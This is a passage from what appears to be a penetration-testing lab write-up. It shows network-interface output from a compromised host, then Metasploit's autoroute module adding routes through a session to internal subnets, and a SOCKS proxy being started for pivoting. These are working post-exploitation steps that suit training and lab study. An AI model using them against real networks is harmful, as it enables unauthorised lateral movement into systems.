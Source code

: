 ```
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 172.18.0.3
IPv4 Netmask : 255.255.0.0


Interface 18
============
Name         : eth1
Hardware MAC : 02:42:0a:00:00:03
MTU          : 1450
Flags        : UP,BROADCAST,MULTICAST
IPv4 Address : 10.0.0.3
IPv4 Netmask : 255.255.255.0

```

Than I used `multi/manage/autoroute` module to add routes to a target system's routing table, this ensure that network traffic is correctly routed through compromised machine.

```
msf6 post(multi/manage/autoroute) > set SESSION 4
SESSION => 4
msf6 post(multi/manage/autoroute) > run

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: linux
[*] Running module against 10.255.0.4
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.0.0.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 10.255.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 172.18.0.0/255.255.0.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > route print

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.0.0.0           255.255.255.0      Session 4
   10.255.0.0         255.255.0.0        Session 4
   172.18.0.0         255.255.0.0        Session 4

```

Finally, using the server/socks_proxy module I started a socks 4 proxy to correctly route network traffic,to do this I used the data in the `/etc/proxychains4.conf` file.

```
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
```
